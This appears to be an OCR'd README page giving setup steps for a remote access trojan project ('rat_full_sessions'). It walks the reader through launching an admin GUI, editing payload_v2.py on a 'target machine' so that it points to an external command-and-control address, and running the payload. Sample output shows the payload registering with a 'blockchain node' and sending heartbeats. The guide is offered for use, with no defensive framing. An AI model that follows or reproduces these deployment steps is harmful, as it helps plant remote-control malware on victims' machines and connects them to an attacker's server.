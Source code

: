 ### Step 2: Start the Admin GUI

Open a **NEW terminal/command prompt** on the same machine:

```cmd
cd C:\Users\Administrator\Documents\GitHub\rat_full_sessions
python admin_gui_v2.py
```

**A popup will ask:** "Enter validator address"

**Type:** `localhost:5000` (since validator is on same machine)

**Click OK**

**The GUI will open!** 🎨

---

### Step 3: Configure and Run Payload on Target

On your **target machine**:

1. **Edit payload_v2.py** first:
   ```cmd
   notepad payload_v2.py
   ```

2. **Find this line** (near the top):
   ```python
   BLOCKCHAIN_NODE = "localhost:5000"
   ```

3. **Change it to your validator IP:**
   ```python
   BLOCKCHAIN_NODE = "38.89.139.10:5000"  # Use your validator IP from Step 1
   ```
   
   **OR** if target is on the same machine as validator, leave it as `localhost:5000`

4. **Save the file**

5. **Run the payload:**
   ```cmd
   cd C:\Users\Administrator\Documents\GitHub\rat_full_sessions
   python payload_v2.py
   ```

**You'll see:**
```
======================================================================
FSDP PAYLOAD V2
======================================================================
Payload ID: 5374ebd3-fbaa-49b6-8383-4d1d9aae8782
Hostname: gil-w25
Platform: Windows/AMD64
IP Address: 45.61.59.125
Debug Mode: True
Connecting to blockchain node: 38.89.139.10:5000
Registration sent to blockchain
Heartbeat sent
Payload started successfully
```
